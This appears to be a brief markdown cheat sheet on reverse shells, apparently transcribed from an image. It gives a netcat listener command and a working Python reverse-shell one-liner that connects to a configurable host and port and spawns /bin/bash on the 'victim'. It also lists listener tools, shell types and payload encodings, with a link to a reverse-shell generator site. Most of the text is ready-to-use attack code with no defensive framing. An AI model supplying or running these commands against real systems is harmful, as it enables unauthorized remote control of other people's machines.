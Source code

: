 ## REverse Shell

- [revshells.com](https://www.revshells.com)

**IP**: `127.0.0.1`
**Port**: `2211`

**Listener/Attcker/Hacker**

```bash
nc -lvnp 2211
```

### Type
- nc
- ncat
- ncat.exe
- ncat (TLS)
- rlwrap + nc
- rustcat
- rustcat + Command History
- pwncat
- windows ConPty
- socat
- socat (TTY)
- powercat
- msfconsole


**Initiator/Target/Victim** 
**Example:**
```bash
export RHOST="127.0.0.1";
export RPORT=2211;
python -c 'import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/bash")'

```

### Shell

Shell: `/bin/bash`

you will get bash reverse shell of target machine

- sh
- /bin/sh
- bash
- /bin/bash
- cmd
- powershell
- pwsh
- ash
- bsh
- csh
- ksh
- zsh
- pdksh
- tcsh

### Encoding

Encoding: None

- URL Encoding
- Double URL Encode
- Base64

